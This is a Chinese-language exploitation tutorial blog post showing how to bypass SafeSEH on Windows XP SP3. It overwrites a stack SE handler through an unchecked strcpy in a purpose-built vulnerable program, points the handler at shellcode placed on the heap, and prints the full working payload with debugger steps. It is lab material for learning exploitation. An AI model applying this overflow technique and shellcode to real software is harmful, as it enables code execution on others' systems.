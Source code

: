 ```yaml
---
layout:		post
title:		从堆中绕过SafeS.E.H
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

void test(char *input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;
	zero=1/zero;
}

int main()
{
	char *buf=(char *)malloc(500);
	__asm int 3
	strcpy(buf,shellcode);
	test(shellcode);

	return 0;
}
```

项目->属性, 选择release版本, 禁用优化


### 0x01 分析

运行*.exe, OllyDbg自动附加调试, 调用完malloc后断下

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x00.png)

查看malloc返回的堆块地址, eax=0x003929d0

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x01.png)

直接F4跳到这里, 完成了strcpy

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x02.png)

内存区goto 0x003929d0, 这里是copy到堆的数据

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x03.png)

继续单步跟入test函数, F4跳到这里, 完成strcpy

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x04.png)

可以看到输入数据的起始栈地址0x0012fe8c

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x05.png)

定位到栈上最近的S.E.H结构, SE Handler的栈地址0x0012ffb4, 0x0012ffb4-0x0012fe8c=296 byte


### 0x02 exploit

利用safeS.E.H的缺陷, 即使S.E.H不可信, 对于指向堆区的Handler仍然会调用。
组织300 byte的shellcode, 覆盖掉栈上的SE Handler, 指向copy到堆块上的shellcode

```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\xd0\x29\x39\x00";
```

注释掉int 3断点, 再编译运行, pwn~

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x06.png)